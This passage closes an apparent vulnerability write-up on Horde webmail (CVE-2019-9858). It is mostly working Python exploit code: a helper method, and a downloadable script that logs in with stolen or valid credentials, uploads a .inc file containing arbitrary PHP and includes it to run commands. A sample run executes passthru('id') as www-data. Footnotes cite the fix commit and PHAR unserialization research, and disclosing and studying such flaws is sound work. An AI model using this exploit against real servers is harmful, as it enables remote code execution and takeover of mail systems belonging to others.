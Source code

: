 ```python

        # load the PHAR archive
        url = '{}/services/portal/'.format(self.base_url)
        response = self.session.get(url)

        # remove the syndicated feed block so to not break the page
        url = '{}/services/portal/edit.php'.format(self.base_url)
        data = {
            # XXX token not needed here
            'row': 0,
            'col': 0,
            'action': 'removeBlock'
        }
        response = self.session.post(url, data=data)
        assert response.status_code == 200, 'Cannot reset the syndicated feed block'
```
{: download="horde.py"}

### PHP file inclusion

The following script takes care of uploading and evaluating a `.inc` file.

```python
#!/usr/bin/env python3
from horde import Horde
import subprocess
import sys

TEMP_DIR = '/tmp'

if len(sys.argv) < 5:
    print('Usage: <base_url> <username> <password> <filename> <php_code>')
    sys.exit(1)

base_url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
filename = sys.argv[4]
php_code = sys.argv[5]

# log into the web application
horde = Horde(base_url, username, password)

# upload (delete manually) and evaluate the .inc file
horde.upload_to_tmp('{}.inc'.format(filename), '<?php {} die();'.format(php_code))
horde.include_remote_inc_file('{}/{}'.format(TEMP_DIR, filename))
```
{: download="exploit-inc-inclusion.py"}

Use it as:

```console
$ python3 exploit-inc-inclusion.py http://target.com username password exploit 'passthru("id");'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


[fix]: https://github.com/horde/Form/commit/f5fc41e9d3f1a7bc9371dda5d39ea7629b0030f3
[CVE-2019-9858]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9858
[^phar-extension]: Apparently it is not strictly needed to use the `.phar` extension, *any* non-empty extension will cause PHP to treat the file as PHAR if accessed via the `phar://` scheme.
[^three-blocks]: Actually the Git version comes with a third apparently vulnerable block (`Tagsearch.php`) but it is missing in the PEAR and Debian APT versions.
[^manual]: This cannot be done directly from the web page, either intercept the request or use the developer tools of the browser to change the value.
[^phar-unserialization]: See [File Operation Induced Unserialization via the "phar://" Stream Wrapper](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf).
[`phar.readonly`]: http://php.net/phar.readonly
